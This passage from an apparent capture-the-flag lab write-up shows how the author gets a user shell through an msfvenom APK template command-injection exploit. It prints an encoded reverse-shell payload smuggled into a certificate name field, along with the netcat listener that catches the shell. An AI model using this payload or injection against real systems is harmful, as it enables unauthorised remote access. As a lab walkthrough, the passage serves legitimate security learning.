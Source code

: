 ![searchsploit msfvenom search]({{ page.img }}_searchsploit_snitch.png)

# User as kid

## APK command injection

And as luck would have it there is an APK file command injection exploit available. APK is a file format for android, and that python script creates a malicious APK with your provided payload (under the change me section). I tossed a reverse shell into that payload and generated the APK file.

```bash
/venomshell.py 
[+] Manufacturing evil apkfile
Payload: echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43Lzc3NzcgMD4mMQ==" | base64 -d | bash
-dname: CN='|echo ZWNobyAiWW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4TkM0M0x6YzNOemNnTUQ0bU1RPT0iIHwgYmFzZTY0IC1kIHwgYmFzaA== | base64 -d | sh #

  adding: empty (stored 0%)
Generating 2,048 bit RSA key pair and self-signed certificate (SHA256withRSA) with a validity of 90 days
	for: CN="'|echo ZWNobyAiWW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4TkM0M0x6YzNOemNnTUQ0bU1RPT0iIHwgYmFzZTY0IC1kIHwgYmFzaA== | base64 -d | sh #"
jar signed.

Warning: 
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk and is disabled.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk and is disabled.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmpb54ltyb5/evil.apk
Do: msfvenom -x /tmp/tmpb54ltyb5/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

Upload it, be sure to select android, and set lhost to 127.0.0.1 as per requested by the script.

![apk upload]({{ page.img }}_msfvenom_apk.png)

```bash
nc -nvlp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.10.226 33180
bash: cannot set terminal process group (860): Inappropriate ioctl for device
bash: no job control in this shell
kid@scriptkiddie:~/html$ cd ~
cd ~
kid@scriptkiddie:~$ cat user.txt
cat user.txt
8a610587a-----------------------
```
